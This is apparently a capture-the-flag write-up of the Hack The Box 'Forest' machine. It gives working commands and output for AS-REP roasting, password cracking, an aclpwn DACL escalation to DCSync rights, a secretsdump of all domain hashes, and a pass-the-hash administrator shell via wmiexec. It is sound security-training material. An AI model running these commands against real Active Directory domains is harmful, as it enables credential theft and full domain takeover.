



# Forest


# Information Gathering

## Nmap

```console
root@discovery:~/htb/forest# nmap -sV -sC 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-21 19:26 EST
Nmap scan report for 10.10.10.161
Host is up (0.049s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-02-22 00:34:49Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/21%Time=5E50755F%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m45s, deviation: 4h37m09s, median: 7m43s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2020-02-21T16:37:11-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-22T00:37:09
|_  start_date: 2020-02-22T00:30:35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 279.76 seconds
```

Looking at my standard opening namp scan, there is a ton of stuff going on. There is one really interesting tidbit of info in all that noise however. From an incident that I worked on once, I know that the first domain controller in an environment gets named **Default-First-Site-Name**, and google agreed with me when I double checked. So I have a hunch that this is a domain controller. But I still have a lot of roads to potentially travel down. I need to narrow down which path I should be taking.


## RPCClient

After a lot of tinkering with the likes of `smbclient`, `smbmap`, and `nmblookup`, I arrived at `rpcclient`. This allowed me to log in with a null session and enumerate a list of users:

```console
root@discovery:~/htb/forest# rpcclient -U "" 10.10.10.161
Enter WORKGROUP\'s password:                                                                                                          
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest]rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]                                                                      
user:[DefaultAccount] rid:[0x1f7]                                                              
user:[$331000-VK4ADACQNUCA] rid:[0x463]                                                        
user:[SM_2c8eef0a09b545acb] rid:[0x464]                                            
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]                                                        
user:[SM_75a538d3025e4db9a] rid:[0x466]                                                        
user:[SM_681f53d4942840e18] rid:[0x467]                                                        
user:[SM_1b41c9286325456bb] rid:[0x468]                                                        
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $> 
```
and do the same for groups:

```console
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
rpcclient $> 
```
# Exploitation  

So there is one account that is not like the others. `svc-alfresco`. At my company, we do not very accurately define service accounts from other accounts, and a teammate whose life mission it is to fix that problem. It is as if its his firey planety core that keeps him going. So as a joke in talking this through with him it occurred to me that I should heed his warning and start here to see where it takes me in exploitation.

In looking around for ways to leverage service accounts, [Kerberoasting](https://attack.mitre.org/techniques/T1208/) seemed like a good thing to try.
>>>Kerberoasting is a method used to steal service account credentials. Part of the service ticket is encrypted with the NT hash of the user. Any domain account can request Kerberos service tickets. Service tickets can be used to crack passwords offline.


I could not get the `GetUsersSPN` [Impacket](https://github.com/SecureAuthCorp/impacket) script to work, since I did not have a password, however in playing around with some of the  tools I discovered the `GetNPUsers.py` script. It just required a list of users:

users.txt:
```txt
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

and then to run the command:

```
root@discovery:~/htb/forest# python3 ~/tools/impacket/examples/GetNPUsers.py -format john -no-pass -k -usersfile users.txt -dc-ip 10.10.10.161 HTB.LOCAL/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:238f1a0ad4dec046dae7839731174ef8$845d182ef414e25937ac06448cf2c335c0057888743dba3137f65c1243d2a464d1918cfa87fe8fffca596ec7f5e86537ca3e3c10c6a0c885f610ac4273dac966986a6f807d31cf9d27bf5733ca0f986900f7d95116c69b0fa8d168e03f37be57bec8e54d664a73f3009e7593b88dff2f5c0cc9e994ddffb1708fe538a5ad99af235993c5db0212932ed81e389ea68ce2db75be50c31372c1523aea0d33999ee18097f3dad7ebb0f6863f02d698682eed73ae9305a230aed52e02e2ff0d89643aaba74c7b1797dd467988be93b175147b10ac05e8770485c86f0543ef1755fe092c9fb8e404c0
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

And I get a john-crackable hash! As with most HTB machines I am first going to run it through `rockyou.txt`:

```console
root@discovery:~/htb/forest# john --wordlist:/usr/share/wordlists/rockyou.txt svchash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2020-02-21 21:20) 0.2923g/s 1194Kp/s 1194Kc/s 1194KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

to great success! I've now got a user:pass `svc-alfresco:s3rvice`.


## User Flag

Now that I've got some credentials, I am going to drop that null session from `rpcclient` and move to a better tool -- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)

```console
root@discovery:~/htb/forest# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice                                                    
                                                                                                                                      
Evil-WinRM shell v2.0                                                                                                                 
                                                                                                                                      
Info: Establishing connection to remote endpoint                                                                                      
                                                                                                                                      
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami                                                                               
htb\svc-alfresco                                                                                                                      
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..                                                                                
*Evil-WinRM* PS C:\Users\svc-alfresco> dir                                                                                            
                                                                                                                                      
                                                                                                                                      
    Directory: C:\Users\svc-alfresco                                                                                                  
                                                                                                                                      
                                                                                                                                      
Mode                LastWriteTime         Length Name                                                                                                                                                                                                                       
----                -------------         ------ ----                                                                                                                                                                                                                       
d-r---        9/23/2019   2:16 PM                Desktop                                                                                                                                                                                                                    
d-r---        9/22/2019   4:02 PM                Documents                                                                                                                                                                                                                  
d-r---        7/16/2016   6:18 AM                Downloads                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Favorites                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Links                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Music                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Pictures                                                                                                                                                                                                
d-----        7/16/2016   6:18 AM                Saved Games                                                                                                                                                                                             
d-r---        7/16/2016   6:18 AM                Videos                                                                                                                                                                                                  


*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-ar---        9/23/2019   2:16 PM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>                                            
```
Baller -- that was pretty neat, now onto enumeration in preparation for privesc to **domain admin** a worst case scenario in the real world.

## Root Flag

Back to my buddy who hates our access management organization -- a few months ago had some free time and ran a tool in our environment called [BloodHound](https://github.com/BloodHoundAD/BloodHound) and aside from having a really awesome logo, the tool is very nice. It basically shows you attack vectors and potentially unintended relationships in your Active Directory implmentation. He used it in a defensive capacity -- I am going to try to use it offensively. (Side note, I followed [this stealing the network](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/) guide from James Smith to get it installed).

From once its fulling installed, I need to log into the target machine and retrieve the data that gets ingested into bloodhound. Luckily, I've got a set of credentials and there is a tool [Bloodhound.py](https://github.com/fox-it/BloodHound.py) that can do that for me. 

```console
root@discovery:~/htb/forest# bloodhound-python -c All -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 31 users
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 17S
```

The output we get makes a couple of JSON files.

  

To then get that data into bloodhound I just need to drag and drop into the bloodhound gui. From there it took a little playing around with, but I was able to get a start (the service account `svc-alfresco`) and end point (htb.local domain admin). Bloodhound helpfully displayed a path which I can follow to get there:

  

So from that, the following are true:

* `svc-alfreso` is a member of `Service Accounts@htb.local`.
* `Service Accounts@htb.local` is a member of `Privileged IT accounts@htb.local`.
* `Privileged IT accounts@htb.local` is a member of `Account Operators@htb.local`.
* Members of the group `Account Operators@htb.local` have **GenericAll** privileges to the `Exchange Windows Permissions@htb.local` group which alows full control.
* `Exchange Windows Permissions@htb.local` have permissions to modify the discrestionary access control list (DACL) on the `htb.local` domain. This will allow me to grant myself any privileges I want on that object (the domain).

With that game plan, time to get to work. Bloodhound is really a tool that gets you data, you still need to take that data and actually do the work. Theres another tool that uses the bloodhound data called [aclpwn](https://github.com/fox-it/aclpwn.py) that uses the path identified and will execute what is necessary to get you down that path. I want to give it a shot:

```console
root@discovery:~/htb/forest# aclpwn -f svc-alfresco -t htb.local -d htb.local -s 10.10.10.161 -u svc-alfresco -p s3rvice
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
Please choose a path [0-1] 1
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user svc-alfresco to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Switching context to svc-alfresco
[+] Done switching context
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to svc-alfresco
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20200222-163611.restore
```
So theoretically I should have added `svc-alfresco` to the domain to have full rights. I still can't use this account specifically to get onto the machine. But I should be able to read what `system` or `administrator` can read. I kind of got stuck here for a bit trying to figure out what to do next until I looked it through the lens of "what would I do if this was a linux box". I could dump the contents of `/etc/shadow` and then log in as `root`. Time to try the same here.

Impacket makes a script that can do just that, and with the rights to do so, I should be able to run it:

```console
root@discovery:~/htb/forest# python3 /root/tools/impacket/examples/secretsdump.py -just-dc-ntlm HTB/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:c2a2ed40d87770ab7ba20e2001379742:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Cleaning up... 
```

Impacket really is the MVP of this box. I spent some time trying to crack the hash to no avail. In googling around I found that I [didn't even necessarily need to do so](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#pth-toolkit-and-impacket), `wmiexec.py` supports authenticating with just a hash:


```console
root@discovery:~/htb/forest# python3 /root/tools/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

C:\>pwd
'pwd' is not recognized as an internal or external command,
operable program or batch file.

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\

09/20/2019  12:18 PM    <DIR>          PerfLogs
09/22/2019  03:56 PM    <DIR>          Program Files
11/20/2016  06:36 PM    <DIR>          Program Files (x86)
09/22/2019  03:02 PM    <DIR>          Users
02/22/2020  01:49 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  31,115,538,432 bytes free

C:\>cd Users
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\Users

09/22/2019  03:02 PM    <DIR>          .
09/22/2019  03:02 PM    <DIR>          ..
09/18/2019  09:09 AM    <DIR>          Administrator
11/20/2016  06:39 PM    <DIR>          Public
09/22/2019  02:29 PM    <DIR>          sebastien
09/22/2019  03:02 PM    <DIR>          svc-alfresco
               0 File(s)              0 bytes
               6 Dir(s)  31,115,538,432 bytes free

C:\Users>cd Administrator
C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\Users\Administrator

09/18/2019  09:09 AM    <DIR>          .
09/18/2019  09:09 AM    <DIR>          ..
09/20/2019  03:04 PM    <DIR>          Contacts
09/23/2019  01:15 PM    <DIR>          Desktop
09/23/2019  02:46 PM    <DIR>          Documents
09/20/2019  03:04 PM    <DIR>          Downloads
09/20/2019  03:04 PM    <DIR>          Favorites
09/20/2019  03:04 PM    <DIR>          Links
09/20/2019  03:04 PM    <DIR>          Music
09/20/2019  03:04 PM    <DIR>          Pictures
09/20/2019  03:04 PM    <DIR>          Saved Games
09/20/2019  03:04 PM    <DIR>          Searches
09/20/2019  03:04 PM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  31,115,534,336 bytes free

C:\Users\Administrator>cd Desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\Users\Administrator\Desktop

09/23/2019  01:15 PM    <DIR>          .
09/23/2019  01:15 PM    <DIR>          ..
09/23/2019  01:15 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31,115,538,432 bytes free

C:\Users\Administrator\Desktop>type root.txt
f048153f202bbb2f82622b04d79129cc
C:\Users\Administrator\Desktop>
```

# Conclusion

This was a very difficult box. I am not strong with AD or windows and this really challenged me, but in the best way. I leared a lot and did not ever feel like I was without ideas -- only without knowledge of how to use the ideas. Bloodhound, in addition to having a great logo was incredibly helpful and I will be relying on that more in the future. 